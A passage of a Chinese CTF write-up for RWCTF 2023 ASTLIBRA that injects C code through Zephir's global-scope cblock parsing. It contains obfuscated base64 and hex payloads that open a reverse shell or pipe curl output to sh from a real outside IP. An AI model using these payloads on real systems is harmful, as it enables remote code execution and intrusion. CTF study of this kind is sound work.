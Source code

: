而进一步翻阅源码可以知道 Zephir 在解析 cblock 时分为了全局域和函数域两个步骤，`secure.patch` 所在的 `Library/StatementsBlock.php` 仅仅对应了对于函数域的解析，然后对于全局域的解析是在 `Library/CompilerFile.php`，并没有被ban掉，所以可以在全局域嵌入 c 代码。

形如：
```
https://store.steampowered.com/app\");}}
%{
payload
}%
function foo(){if false {var bar=0;//
```

1. 劫持宏反弹shell

查看 Zephir 生成的 C 语言代码，可以看到在 `getURL` 那里调用了一个 Zend API： `RETURN_STRING`，重定义劫持宏达成命令执行。

```
https://store.steampowered.com/app\");}}
%{
#define A bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjE0Mi4xMDQuNzgvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}'
#define _A(str) _TMP(str)
#define _TMP(str) #str
#define RETURN_STRING(a) system(_A(A))
}%
function foo(){if false {var bar=0;//
```

2. `__attribute__`
GNC C 特有的一个机制，可以设置函数属性（Function Attribute ）、变量属性（Variable Attribute ）和类型属性（Type Attribute ）。

```
https://store.steampowered.com/app\");}}
%{
__attribute__((constructor)) static void beforeFunction() {
char s[] = {0x63,0x75,0x72,0x6c,0x20,0x38,0x2e,0x31,0x34,0x32,0x2e,0x31,0x30,0x34,0x2e,0x37,0x38,0x3a,0x39,0x30,0x30,0x31,0x7c,0x73,
              0x68, 0x00};
        system(s);
};
}%
function a(){if false{var ch=0;//
```

### 维持

在执行 `bot.php` 时会加入一个 `timeout 10` 参数，需要获得一个持久的 shell。

经过尝试发现可以在弹的shell里面再弹一次shell，它就只会关闭第二个shell，第一个 shell 就不会 exit，不是很懂。。。

## Ref
- r3
- https://github.com/wupco/rwctf2023-ASTLIBRA
- [Zephir](https://github.com/zephir-lang/zephir)
- [Zend API](https://php.golaravel.com/internals2.ze1.zendapi.html)